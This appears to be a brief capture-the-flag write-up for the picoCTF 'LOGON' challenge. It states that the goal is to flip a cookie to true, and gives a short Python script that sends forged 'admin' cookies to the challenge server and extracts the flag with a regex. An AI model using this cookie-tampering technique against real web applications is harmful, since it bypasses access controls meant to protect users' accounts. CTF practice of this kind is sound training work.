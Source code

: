 
> LOGON
> The aim is to change the value of a cookie to true to receive the flag 

> the script

`#!/usr/bin/python
import requests
import re
params = {'user': 'A', 'password': 'A', 'submit': 'Sign In'}
jar = {'admin': 'True', 'password': '', 'username': ''}
r = requests.get('http://2018shell1.picoctf.com:37861/flag', data=params, cookies=jar)
source = r.text
print(re.findall(r'(picoCTF\{.+\})', source)[0])
`
